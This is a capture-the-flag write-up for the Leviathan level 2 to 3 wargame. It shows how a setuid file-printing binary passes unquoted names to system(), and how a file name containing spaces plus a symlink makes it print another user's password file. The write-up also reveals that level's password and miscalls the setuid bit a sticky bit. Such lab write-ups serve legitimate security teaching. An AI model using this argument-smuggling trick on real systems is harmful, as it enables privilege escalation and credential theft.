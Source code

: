 Leviathan Level 2 → Level 3
===========================

Level Goal
----------

There is no information for this level, intentionally.

Solution
========

There's no hint text or anything else for this level. So let's look around what we can find in the home directory:

```
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There's a binary called **printfile** which is owned by user **leviathan3** and which has the Sticky Bit set.
Let's check what the file does. Since we want to gather the password of user leviathan3, we'll give the password-file of that user as an argument to **printfile**:

```
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Unfortunately it does not print the password as expected but just says "You cant have that file" because we obviously don't have read permissions. 
So let's try something similar with a file that is owned by our currently logged-in user:

```
leviathan2@leviathan:~$ mkdir /tmp/n3lke
leviathan2@leviathan:~$ echo "Hello World" > /tmp/n3lke/test
leviathan2@leviathan:~$ ./printfile /tmp/n3lke/test
Hello World
```

This works fine. So let's see if we can find out what's going on under the hood:

```
leviathan2@leviathan:~$ ltrace ./printfile /tmp/n3lke/test
__libc_start_main(0x804852b, 2, 0xffffd714, 0x8048610 <unfinished ...>
access("/tmp/n3lke/test", 4)                                                                                                     = 0
snprintf("/bin/cat /tmp/n3lke/test", 511, "/bin/cat %s", "/tmp/n3lke/test")                                                      = 24
geteuid()                                                                                                                        = 12002
geteuid()                                                                                                                        = 12002
setreuid(12002, 12002)                                                                                                           = 0
system("/bin/cat /tmp/n3lke/test"Hello World
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                           = 0
+++ exited (status 0) +++
```
First observation: the binary internally uses **/bin/cat** in order to display the contents of a file. We do not see anything conspicuous in addition for the moment. 
We'll do the same for the password file which we don't have the appropriate read permissions for:

```
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd714, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                                      = -1
puts("You cant have that file..."You cant have that file...
)                                                                                               = 27
+++ exited (status 1) +++
```

If we compare both outputs we recognize that the function **access()** is executed at the beginning. So let's check what access() is used for by looking into its **man page**:

```
DESCRIPTION
       access() checks whether the calling process can access the file pathname.  If pathname is a symbolic link, it is dereferenced.

       The  mode  specifies  the  accessibility check(s) to be performed, and is either the value F_OK, or a mask consisting of the bitwise OR of one or more of R_OK, W_OK, and X_OK.  F_OK tests for the
       existence of the file.  R_OK, W_OK, and X_OK test whether the file exists and grants read, write, and execute permissions, respectively.
```

So as we already found out, access() is used to check whether the file given as an argument to the **printfile** binary has the appropriate read permissions.
Since we somehow have to manipulate the workflow of the binary, we take a more deeper look into the manpage of access() and find this pretty interesting information:

```
NOTES
       Warning:  Using  these calls to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer  alternative  would
       be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

Obviously we can trick access() to think that the password file of leviathan3 is owned by ourself. We just have to find a way to trick **access()** while giving **/bin/cat** a reasonable argument which it can process.
Fortunately **cat** takes multiple arguments for files to display one after another:

```
NAME
       cat - concatenate files and print on the standard output

SYNOPSIS
       cat [OPTION]... [FILE]...

DESCRIPTION
       Concatenate FILE(s) to standard output.
```

The trick now is to give ONE proper file name to **printfile** which satisfies **access()** as well as **/bin/cat**. 
That's done by chosing a file name which consists of more than one word separated by whitespaces. The first word is the most relevant one. The additional one or two words are just used to generate two different files in the local filesystem:
First of all we create a file named **powned by n3lke** which is owned by ourselfes. This files is used to trick **access()**:

```
leviathan2@leviathan:~$ mkdir /tmp/n3lke
leviathan2@leviathan:~$ touch /tmp/n3lke/pwned\ by\ n3lke
```

Afterwards we create a Symlink named **pwned** into the same directory which points to the desired password file of leviathan3 (the password file is found in **/etc/leviathan_pass/leviathan3**):

```
leviathan2@leviathan:~$ cd /tmp/n3lke
leviathan2@leviathan:/tmp/n3lke$ ln -s /etc/leviathan_pass/leviathan3 pwned
```

We now have a dummy file named **pwned** which is used to trick **access()** and a symlink to the password file of leviathan3 which we want to display:

```
leviathan2@leviathan:/tmp/n3lke$ ls -al
total 268
drwxr-sr-x   2 leviathan2 root   4096 Jun  7 18:41 .
drwxrws-wt 163 root       root 266240 Jun  7 18:40 ..
lrwxrwxrwx   1 leviathan2 root     30 Jun  7 18:41 pwned -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Jun  7 18:41 pwned by n3lke
```

Finally we are ready to shoot. Let's execute **printfile** and grab the password for the next level: 

```
leviathan2@leviathan:/tmp/n3lke$ cd
leviathan2@leviathan:~$ ./printfile /tmp/n3lke/pwned\ by\ n3lke
Ahdiemoo1j
/bin/cat: by: No such file or directory
/bin/cat: n3lke: No such file or directory
```

Phew! That was tough! 😎
